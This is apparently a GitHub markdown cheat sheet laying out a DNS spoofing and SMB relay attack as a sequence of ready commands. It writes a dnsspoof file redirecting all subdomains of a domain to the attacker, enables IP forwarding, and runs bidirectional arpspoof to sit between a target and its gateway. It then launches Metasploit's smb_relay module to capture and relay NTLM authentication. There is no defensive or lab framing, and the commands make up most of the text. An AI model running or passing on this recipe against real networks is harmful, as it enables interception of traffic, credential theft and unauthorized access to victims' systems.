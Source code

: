 A DNS spoofing and SMB relay attack leverages misconfigured or insecure networks to intercept traffic and relay authentication credentials to gain unauthorized access to systems. It combines DNS spoofing to redirect traffic and SMB relay to capture and relay NTLM authentication hashes.

## 1. DNS Spoofing Setup

**DNS spoofing** involves impersonating a DNS server to redirect a victim's traffic to an attacker-controlled machine.

| Option         | Description                                                                  |
| -------------- | ---------------------------------------------------------------------------- |
| **`ip`**       | Replace with the attacker's IP address.                                      |
| **`*.domain`** | Wildcard to redirect all subdomains of the specified domain to the attacker. |
| **`-i eth1`**  | Specifies the network interface to listen on.                                |
| **`-f dns`**   | Specifies the DNS spoofing configuration file.                               |

```bash
echo "<ip> *.domain" > dns
dnsspoof -i eth1 -f dns
```

## 2. Enable IP Forwarding

This command enables IPv4 packet forwarding, allowing the attacker to act as a relay between the victim and the gateway.

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

##  3. ARP Spoofing

ARP spoofing poisons the ARP cache of the target and gateway, allowing the attacker to position themselves as a man-in-the-middle.

| Option          | Description                                     |
| --------------- | ----------------------------------------------- |
| **`gateway`**   | The IP address of the network gateway (router). |
| **`-i eth1`**   | Specifies the network interface to use.         |
| **`-f target`** | The IP address of the target machine.           |
```bash
arpspoof -i eth1 -t target gateway
arpspoof -i eth1 -t gateway target
```

## 4. SMB Relay with Metasploit

The SMB relay attack exploits NTLM authentication by intercepting SMB requests and relaying them to a legitimate server to authenticate as the victim.

1. Use the SMB relay module:

```bash
use windows/smb/smb_relay
```

2. Configure the module options:

- Set the target IP and other necessary parameters, such as `SRVHOST` `SMBHOST` and `LHOST`.
- Ensure the listener is ready to capture and relay the credentials.

3. Run the attack:

```bash
exploit
```